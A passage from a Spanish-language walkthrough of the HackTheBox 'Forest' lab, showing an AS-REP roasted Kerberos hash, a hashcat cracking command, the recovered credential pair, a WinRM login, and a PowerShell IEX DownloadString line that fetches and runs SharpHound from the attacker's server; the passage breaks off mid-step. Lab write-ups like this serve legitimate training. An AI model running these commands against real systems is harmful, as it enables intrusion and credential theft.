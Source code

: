 
Tenemos el hash del usuario svc-alfresco.

```hash
$krb5asrep$23$svc-alfresco@HTB.LOCAL:db1dead193ab76a7f057d07353075529$a860d291c1f7c67df9abc7ca66d7afed02eaa679c900bfc874e7b0bc67243d56ef0681efdd5a1e6ef33389a1e0aed9c16aa8346956b4f8c2efd70cf0f57537160d230d6ebbd9fa4be6e15521d30d90e6d4c193c4fb7179ef0437c131935e026147e8ce22f459b3ba1aaa86c92f22d264c9e83ac7418a7cbe254090b20e233f5352b596bbc3a605d584cb73688cbf6cafda12ea96efa1a5ecf64f085dfe63969b6fca003296c41889f03aa4883fc0948b06312da0a4d314173248601179e639a605e90eaca29e13bc4011c5f04b77572ecd8b187b44b37f40b1ac1b8290efe9a3a50c87469b3f
```

Ahora podríamos crackear este hash a través de hashcat o john

`hashcat -m 18200 hashes.hash /usr/share/wordlists/rockyou.txt --force`

> El hash descifrado es s3rvice


Ahora podemos conectarnos a través de WinRM con las credenciales obtenidas

> svc-alfresco:s3rvice

![](/assets/images/HTB/Forest-HackTheBox/winrm.webp)

Y ya podemos leer la flag user.txt


# Escalada de Privilegios [#](privesc) {#privesc}

----

## BloodHound[🩸](blood) {#blood}

Ahora toca la fase de escalar privilegios, la fase más díficil en mi opinión.

Lanzo los scripts Winpeas, windows-suggester... pero no veo nada de importancia.

Asique procedo a usar SharpHound.

Abrimos un servidor de python

> `python3 -m http.server 8080`

Subo el script SharpHound con el comando:

> `IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/SharpHound.ps1')`

Una vez subido lo ejecutamos con los siguientes parámetros
